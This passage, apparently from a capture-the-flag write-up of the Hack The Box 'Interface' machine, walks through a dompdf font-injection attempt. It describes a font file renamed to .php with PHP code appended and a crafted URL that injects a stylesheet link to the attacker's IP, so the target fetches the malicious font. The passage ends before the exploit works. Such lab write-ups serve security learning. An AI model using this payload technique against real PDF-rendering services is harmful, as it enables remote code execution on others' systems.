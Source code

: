 
Navigate into the downloaded directory, we can see two files **exploit.css** and **exploit_font.php** inside exploit sub-directory.

![](https://cdn-images-1.medium.com/max/2000/1*oTpw7Xcwb_rbQLtMDwn0SA.png)

Viewing the content of exploit_font.php file, we can see the `<?php phpinfo();?>` command at the end of the file. The other content shows that the file is not actually a PHP file but some kind of file for fonts, the above command is inserted at the end of the file and the file has been renamed to .php so that the PHP code would execute.

![](https://cdn-images-1.medium.com/max/2000/1*4LKBTyyNPibb4fbTEHKvKA.png)

As discussed, the file is a font file.

![](https://cdn-images-1.medium.com/max/2000/1*Tdsy-_ADnwAFCMyPHabomA.png)

Viewing the content of exploit.css file, we can see that the font file is loaded from the URL [http://localhost:9001/exploit_font.php](http://localhost:9001/exploit_font.php).

![](https://cdn-images-1.medium.com/max/2000/1*W_LQS-IK2KVWbLk7rA4J9Q.png)

Let’s make some changes into the CSS file and insert our IP.

![](https://cdn-images-1.medium.com/max/2000/1*_LbPBjO9NV0vSCEBAG3PGQ.png)

In order to perform the exploit, we need to craft our URL as **http://prd.m.rendering-api.interface.htb/index.php?pdf&title=\<link rel=stylesheet href=’http://10.10.14.45:9001/exploit.css’>**

Setup the server in the directory where the CSS and PHP file is located and listen to the port 9001.

![](https://cdn-images-1.medium.com/max/2000/1*nHu6-uzMiHisBsAvoElwTg.png)

Open the above URL on the browser, we should get the hit. But we didn’t get any hit to our server. Means that we are doing something wrong probably.

![](https://cdn-images-1.medium.com/max/2642/1*yOMvAhXUAu_vLpY6BvJymg.png)

Spent some time figuring out how to exploit this but every exploit techniques available on the internet was using the same approach above. But does that **index.php** file actually exist on the system? If not, there is no point of executing our payload.

![](https://cdn-images-1.medium.com/max/2000/1*68Maw1NCDWQ0pPqsLfMVuw.png)

Since the **index.php** file which was used on the exploit provided does not exist, we need to find another endpoint which does the work.

As we navigate to the result of Feroxbuster above we have discovered two directories **/api** and **/vendor**. We ignored the **/api** because it was returning 404 Not Found status. Since we have already gone through the sub-directories on **/vendor**, the only remaining is **/api**.

![](https://cdn-images-1.medium.com/max/2000/1*RDNuRuovm31b9CMCTUVLZA.png)

Tried different tools and wordlists but no any luck here as well. But I was in hope that this /api/ contains something that I am missing.
